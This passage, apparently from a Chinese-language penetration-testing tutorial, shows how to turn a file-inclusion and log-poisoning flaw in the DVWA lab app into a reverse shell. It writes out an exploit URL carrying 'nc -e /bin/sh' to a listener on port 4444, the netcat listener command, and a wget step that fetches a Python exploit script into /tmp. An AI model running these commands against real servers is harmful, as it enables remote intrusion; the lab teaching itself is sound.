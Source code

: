 现在，让我们尝试从相同的`cmd`参数获取一个反向 shell。我们将使用`netcat`获得反向外壳。如果服务器上没有安装 netcat，我们也可以使用 Python 来获取 shell。让我们看看两者都在起作用。

# 使用 Netcat 的反向 shell

本例中的 URL 和命令如下：`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=nc -e /bin/sh 192.168.1.102 4444`。

我们还需要设置一个`netcat`侦听器，用于侦听端口`4444`上的传入连接。让我们通过在不同的终端上执行`nc -nlvp 4444`命令来实现这一点。现在，浏览 URL 并查看是否获得 shell：

![](img/6cb31672-8088-4619-8644-f3f2fd021296.png)

浏览此 URL 后，让我们尝试查看生成的`netcat`侦听器，看看是否获得 shell：

![](img/ac74a96b-fa99-40f3-b85e-5b63cc020431.png)

可以验证的是，我们得到了一个低特权的 shell，`www-data`。

# 用 Python 反转 shell

现在，假设服务器上没有安装 Netcat。我们将使用 Python 获得 shell。由于底层服务器是基于 Linux 的，因此默认情况下，会在其上安装 Python。因此，我们将修改我们的利用命令，如下所示：

`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=wget http://192.168.1.102/exp.py -O /tmp/exp.py`
